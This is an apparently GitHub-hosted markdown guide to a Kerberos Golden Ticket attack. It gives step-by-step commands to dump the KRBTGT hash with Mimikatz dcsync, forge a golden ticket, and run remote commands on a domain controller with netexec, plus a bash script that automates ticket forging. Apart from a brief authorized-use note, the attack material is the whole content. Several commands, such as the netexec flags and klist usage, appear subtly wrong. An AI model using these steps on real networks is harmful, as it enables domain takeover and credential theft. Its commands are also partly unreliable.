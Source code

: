 
# Golden Ticket Attack & Usage with Netexec

## Prerequisites

- Administrative privileges on the target domain controller.
- Tools: Mimikatz, PowerShell, netexec.

## Step 1: Dump the KRBTGT Hash (On Victim Machine - PowerShell)
1. Use Mimikatz to extract the **KRBTGT** hash:
   ```powershell
   mimikatz # lsadump::dcsync /domain:<DOMAIN_NAME> /user:krbtgt
   ```

   - Replace `<DOMAIN_NAME>` with the target domain name.
   - Copy the **NTLM** hash of the KRBTGT user.

## Step 2: Generate the Golden Ticket (On Kali - Bash)
1. Create the golden ticket using Mimikatz:
   ```bash
   mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_NAME> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /id:<USER_ID> /groups:<GROUP_IDS> /endin:20250501 /renewmax:20250601 /target:<DC_NAME> /ticket:<TICKET_FILE>.kirbi
   ```

   - `<USERNAME>`: The account name to impersonate (typically `Administrator`).
   - `<DOMAIN_NAME>`: Domain name.
   - `<DOMAIN_SID>`: The SID of the domain.
   - `<KRBTGT_HASH>`: The NTLM hash of the KRBTGT account.
   - `<USER_ID>`: The RID of the user (default is `500` for Administrator).
   - `<GROUP_IDS>`: Add necessary group RIDs (like `512` for Domain Admin).
   - `<DC_NAME>`: Domain Controller name.
   - `<TICKET_FILE>`: Name of the output ticket file.

## Step 3: Validate the Ticket (On Kali - Bash)
1. Verify the saved ticket with `klist`:
   ```bash
   klist -k <TICKET_FILE>.kirbi
   ```

## Step 4: Use `netexec` with the Golden Ticket (On Kali - Bash)
1. Use `netexec` to execute commands on the remote machine using the saved ticket:
   ```bash
   netexec -r <DC_NAME> -u <DOMAIN>\<USERNAME> -d <COMMAND> --ticket=<TICKET_FILE>.kirbi
   ```

   - `<DC_NAME>`: Domain Controller or target machine name.
   - `<DOMAIN>`: The domain name.
   - `<USERNAME>`: The user you impersonated (e.g., `Administrator`).
   - `<COMMAND>`: The command to execute on the target.
   - `<TICKET_FILE>`: The generated golden ticket file.

Example:
   ```bash
   netexec -r DC01 -u MYDOMAIN\Administrator -d "cmd /c whoami" --ticket=golden_ticket.kirbi
   ```

## Automated Script for Generating Golden Ticket (On Kali - Bash)

1. Here’s a script that automates the generation of the golden ticket and saves it as a file.

   ```bash
   #!/bin/bash

   # Variables
   DOMAIN_NAME="MYDOMAIN"
   USERNAME="Administrator"
   DOMAIN_SID="S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX"
   KRBTGT_HASH="XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
   DC_NAME="DC01"
   TICKET_FILE="golden_ticket.kirbi"

   # Generate Golden Ticket
   echo "Generating Golden Ticket..."
   mimikatz "kerberos::golden /user:${USERNAME} /domain:${DOMAIN_NAME} /sid:${DOMAIN_SID} /krbtgt:${KRBTGT_HASH} /id:500 /groups:512 /endin:20250501 /renewmax:20250601 /target:${DC_NAME} /ticket:${TICKET_FILE}"

   echo "Golden Ticket saved as ${TICKET_FILE}"
   ```

This script automates the golden ticket creation process, saving the output to a file.

---

**Note:** Use this information only for authorized penetration testing or legal assessments.

--- 
